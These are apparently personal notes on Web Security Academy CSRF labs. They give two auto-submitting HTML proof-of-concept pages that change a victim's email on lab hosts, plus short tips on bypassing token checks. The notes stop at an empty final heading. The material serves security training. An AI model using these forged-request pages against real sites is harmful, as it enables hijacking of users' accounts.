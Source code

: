 ___

Engagement tools / Generate CSRF PoC

Enable the option to include an auto-submit script and click "Regenerate".
# CSRF vulnerability with no defenses

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a670050040a93f380ec30c9001f00b8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# CSRF where token validation depends on request method

With POST --> missing parameter CSRF

GET


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ab3000303d506d3801d35f700120019.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# CSRF where token validation depends on token being present

Delete the `csrf` parameter entirely and observe that the request is now accepted.

# CSRF where token is not tied to user session

```
Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
```

# CSRF where token is tied to non-session cookie


